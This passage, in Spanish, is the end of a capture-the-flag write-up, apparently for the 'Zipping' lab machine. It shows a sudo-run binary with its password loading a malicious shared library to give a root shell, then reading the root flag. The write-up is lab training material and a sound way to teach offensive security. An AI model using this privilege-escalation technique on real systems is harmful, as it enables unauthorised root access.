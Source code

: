 Y ahora solo falta ejecutar el binario como sudo y poner la contraseña, si todo sale bien se debería de cargar nuestra librería compartida maliciosa y se debería de ejecutar una `/bin/bash` con máximos privilegios.

```shell
rektsu@zipping:~/.config$ sudo stock
Enter the password: St0ckM4nager
root@zipping:/home/rektsu/.config# whoami
root
root@zipping:/home/rektsu/.config# id
uid=0(root) gid=0(root) groups=0(root)
root@zipping:/home/rektsu/.config#
```

Y ya podríamos leer la flag de super usuario.
```shell
root@zipping:~# cd /root
root@zipping:~# ls -la
total 44
drwx------  6 root root 4096 Aug  3 20:00 .
drwxr-xr-x 19 root root 4096 Oct 17  2023 ..
lrwxrwxrwx  1 root root    9 Jan 27  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr 28  2022 .bashrc
drwx------  3 root root 4096 Aug  7  2023 .cache
drwx------  3 root root 4096 Aug  7  2023 .launchpadlib
drwxr-xr-x  3 root root 4096 Aug  7  2023 .local
-rw-r--r--  1 root root  161 Apr 28  2022 .profile
drwx------  2 root root 4096 Aug  7  2023 .ssh
-rw-r--r--  1 root root   27 Aug  3 20:09 .stock.csv
-rw-r--r--  1 root root  165 Aug  7  2023 .wget-hsts
-rw-r-----  1 root root   33 Aug  3 20:00 root.txt
root@zipping:~# cat root.txt
65ea9aab4a320db....
root@zipping:~# 
```

Happy Hacking! 🚀